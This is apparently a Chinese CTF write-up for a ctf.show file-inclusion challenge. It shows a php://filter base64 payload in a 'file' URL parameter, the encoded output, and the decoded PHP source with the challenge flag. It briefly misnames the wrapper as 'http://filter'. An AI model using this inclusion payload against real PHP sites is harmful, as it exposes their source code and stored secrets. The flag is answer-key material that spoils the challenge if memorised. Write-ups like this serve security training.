 这个题目其实和我们当时做RCE远程代码执行的时候有做到过，我们如果要通过include读取文件，就需要用到http://filter协议去读取源码

```url
http://4258ef9c-e6a8-45ef-a0b4-b43bc0a5a484.challenge.ctf.show/?file=php://filter/read=convert.base64-encode/resource=flag.php
```

<figure><img src="../.gitbook/assets/image (32) (1).png" alt=""><figcaption></figcaption></figure>

得到的base64编码是

```
PD9waHANCg0KLyoNCiMgLSotIGNvZGluZzogdXRmLTggLSotDQojIEBBdXRob3I6IGgxeGENCiMgQERhdGU6ICAgMjAyMC0wOS0xNiAxMDo1NToxMQ0KIyBATGFzdCBNb2RpZmllZCBieTogICBoMXhhDQojIEBMYXN0IE1vZGlmaWVkIHRpbWU6IDIwMjAtMDktMTYgMTA6NTU6MjANCiMgQGVtYWlsOiBoMXhhQGN0ZmVyLmNvbQ0KIyBAbGluazogaHR0cHM6Ly9jdGZlci5jb20NCg0KKi8NCg0KDQokZmxhZz0iY3Rmc2hvd3s0MTgyMmFiNi05MzBjLTQxMTUtYWFlNi02NjYyNDg2ZmE3MWN9Ijs=
```

解码得

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 10:55:11
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-16 10:55:20
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


$flag="ctfshow{41822ab6-930c-4115-aae6-6662486fa71c}";
```
